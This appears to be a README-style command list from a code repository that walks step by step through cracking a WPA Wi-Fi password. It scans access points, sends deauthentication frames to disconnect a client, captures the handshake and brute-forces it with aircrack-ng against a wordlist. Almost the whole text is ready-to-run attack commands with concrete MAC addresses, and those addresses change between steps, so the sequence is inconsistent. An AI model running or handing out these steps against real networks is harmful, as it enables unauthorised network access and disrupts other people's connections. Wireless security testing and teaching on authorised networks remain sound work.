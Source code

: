 ## 1. Scan available access points
sudo airodump-ng -w scan-aps wlp1s0mon
## 2. Extract all APs with their MAC address and channels
python3 extract-aps.py
## 3. Scan that AP on its channel to get the clients connected to it
sudo airodump-ng --bssid d6:02:7d:0a:64:9d -c 8 -w do-deauth wlp1s0mon
## 4. Send the deauth frame to that client
sudo aireplay-ng --deauth 10 -a d6:02:7d:0a:64:9d -c 34:6F:24:BE:87:95 wlp1s0mon
## 5. Extract the full handshake
## 6. Extract values (ANonce, SNonce, MICs)
python3 extract-handshake.py do-deauth-05.cap --ssid "4010" --ap e8:48:b8:f0:0f:9c --client 52:62:E7:6C:26:C2 --out handshake.json

## 7. Brute-force password and match


aircrack-ng -w smartlist.txt -b e8:48:b8:f0:0f:9c --debug do-deauth-05.cap
